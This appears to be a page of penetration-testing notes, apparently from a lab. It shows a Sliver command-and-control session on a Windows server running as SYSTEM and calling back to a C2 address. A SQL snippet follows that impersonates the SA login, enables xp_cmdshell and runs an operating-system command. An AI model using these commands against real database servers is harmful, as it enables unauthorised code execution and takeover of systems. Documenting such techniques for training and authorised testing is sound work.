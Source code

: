 ```bash

[server] sliver > use aebd0480-bd90-4332-b72b-02ccf05e259a

[*] Active session ILLEGAL_COINSURANCE (aebd0480-bd90-4332-b72b-02ccf05e259a)

[server] sliver (ILLEGAL_COINSURANCE) > whoami

Logon ID: NT AUTHORITY\SYSTEM
[*] Current Token ID: NT AUTHORITY\SYSTEM
[server] sliver (ILLEGAL_COINSURANCE) > ifconfig

+-------------------------------------------+
| Ethernet0                                 |
+-------------------------------------------+
|  # | IP Addresses     | MAC Address       |
+----+------------------+-------------------+
| 12 | 192.168.188.6/24 | 00:50:56:bf:06:c4 |
+-------------------------------------------+
1 adapters not shown.

[server] sliver (ILLEGAL_COINSURANCE) > info

        Session ID: aebd0480-bd90-4332-b72b-02ccf05e259a
              Name: ILLEGAL_COINSURANCE
          Hostname: appsrv01
              UUID: 668e3f42-0574-3803-1ee9-065e22661fb8
          Username: NT AUTHORITY\SYSTEM
               UID: S-1-5-18
               GID: S-1-5-18
               PID: 3412
                OS: windows
           Version: Server 2016 build 17763 x86_64
            Locale: en-US
              Arch: amd64
         Active C2: mtls://192.168.45.197:9001
    Remote Address: 192.168.188.6:50042
         Proxy URL:
Reconnect Interval: 1m0s
     First Contact: Sat Aug 31 17:00:29 EDT 2024 (6m10s ago)
      Last Checkin: Sat Aug 31 17:06:20 EDT 2024 (19s ago)

```


#### 15.2 Queries

* xp_cmdshell execution impersonating SA
```sql
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell whoami;

```
